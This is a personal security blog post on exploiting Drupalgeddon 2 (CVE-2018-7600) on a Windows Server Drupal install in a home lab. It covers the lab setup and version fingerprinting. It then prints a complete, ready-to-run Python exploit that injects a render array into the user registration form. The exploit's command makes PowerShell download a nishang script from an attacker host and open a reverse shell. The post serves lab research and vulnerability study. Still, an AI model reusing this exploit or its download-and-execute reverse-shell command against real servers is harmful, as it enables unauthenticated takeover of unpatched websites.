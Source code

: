 ```yaml
---
layout: post
title: Exploiting Durpalgeddon 2 on Windows
tags: [Security, Hacking]
---
```

In late March of this year the Drupalgeddon 2 vulnerability was disclosed. Given the CVE 2018-7600 the vulnerability was an unauthenticated remote code execution flaw in Drupal instances covering versions < 7.58 / 8.x < 8.3.9 / 8.4.x < 8.4.6 / 8.5.x < 8.5.1. So basically every Drupal instance at the time and with around a million websites online running Drupal this flaw is huge. 

In simple terms, the vulnerability is an error in the way that Drupal processes AJAX form requests with the use of rendered arrays. Essentially a malicious rendered array is injected into a form that can be accessed by an unauthenticated user. The most common and vulnerable form that accepts malicious rendered arrays is the user registration form. For more on the technical details of the vulnerability and how it works vist [this site](https://research.checkpoint.com/uncovering-drupalgeddon-2/) by checkpoint research for details.

There are a few proof of concepts floating around on the internet such as [this one](https://github.com/dreadlocked/Drupalgeddon2) written in ruby, as well as a [metasploit module](https://www.rapid7.com/db/modules/exploit/unix/webapp/drupal_drupalgeddon2), but they all seemed to target Linux. I was curious if this flaw could be exploit on Windows - so I built a lab to test it out. 

## Building the lab
I built my Drupal lab using Drupal 8.50 (released 7 March 2018), so this release is just before CVE 2018-7600 landed. I utilised Windows Server 2012 R2 as the server. The overall process for getting Drupal to run on Windows is a bit tricky, however [this website](https://www.xenyo.com/blog/drupal-8-on-windows-iis-mssql-and-php) does a fantastic job of walking you through all the little steps. The only additional things I needed to do to get it running are detailed below:

### PHP Manager
I was unable to get PHP Manager installed following the directions on the xenyo and there were certificate errors using Web Platform Installer 5.0. However, downloading and installing PHP Manager from this [GitHub repository](https://github.com/RonaldCarter/PHPManager/releases) did the trick.

### Open Drupal to External Connections
Once I was up and running with my Drupal instance, I could easily access it via localhost on the Windows Server. However, I was having issues connecting to it via my attacking Kali machine. The trick is in the settings.php file. The original file will have something like this located near the end of the file:
{% highlight bash %}
$settings['trusted_host_patterns'] = array(
    '^localhost$',
);
{% endhighlight %}
You need to add your server's IP address to this array to allow you to access your Drupal instance externally. So mine looks like:
{% highlight bash %}
$settings['trusted_host_patterns'] = array(
    '^localhost$','^192.168.206.129$'
);
{% endhighlight %}

## Exploiting CVE 2018-7600
The first step is determining if your Drupal instance is vulnerable. This means you need to identify the version number of the installation. I tried a number of tools including droopescan and drupwn, but these gave me differing results.
![](/img/drupal/droopescan.png)
![](/img/drupal/drupwn.png)
In the end, the most reliable response I got was from my nmap scan.
![](/img/drupal/nmap.png)
However, in a production environment this header may be removed, so you can get additional information from accessing the README.txt or LICENSE.txt files (again, this should probably be removed in production).

I crafted my exploit in python and set my commands to download nishang's Invoke-PowerShellTCP script to get a reverse shell on the box. My exploit that I ran was:
{% highlight python %}
#!/usr/bin/ python3
import sys
import requests

#######################################################
# Simple Exploit for CVE 2018-7600 (Drupalgeddon 2)
# Usage: python3 drupalgeddon.py http://target-address
#######################################################

target = sys.argv[1]

command = '''powershell -c IEX (New-Object Net.WebClient).downloadstring('http://192.168.206.133:8000/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.206.133 -Port 8081'''

url = target + '/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': command }

print("Sending Payload...")

r = requests.post(url, data=payload)

print("Payload Sent.")
{% endhighlight %}

I simply executed my payload.
![](/img/drupal/payload.png)
And got a reverse shell.
![](/img/drupal/shell.png)

So, in the end there is no difference for Windows or Linux when executing Drupalgeddon 2. You just need to use the specific commands for your target. The shocking thing about Drupalgeddon 2 is how easy it is to exploit. My exploit is not complex and once it was written it was a simple case of point and shoot. 
